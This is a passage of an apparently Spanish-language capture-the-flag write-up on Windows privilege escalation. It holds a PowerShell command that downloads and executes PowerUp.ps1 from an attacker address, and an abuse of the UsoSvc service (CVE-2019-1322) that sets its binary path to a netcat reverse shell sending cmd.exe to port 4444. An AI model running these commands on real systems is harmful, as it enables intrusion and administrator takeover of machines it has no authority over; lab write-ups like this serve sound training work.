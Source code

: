 - `powershell`
- `IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.248/PowerUp.ps1')`
- `Invoke-AllChecks`

![14](images/14.png)

Investigando sobre el servicio **UsoSvc** nos encontramos con un exploit para obtener una shell con privilegios de Administrador.

### Windows 10 - CVE-2019-1322 UsoSvc

Verificamos el servicio.

`sc.exe qc usosvc`

![15](images/15.png)

Configuramos el servicio con nuestro comando.

- `sc.exe config usosvc binPath="C:\Microsoft\nc.exe 10.10.14.248 4444 -e cmd.exe"`
- `sc.exe qc usosvc`

![16](images/16.png)

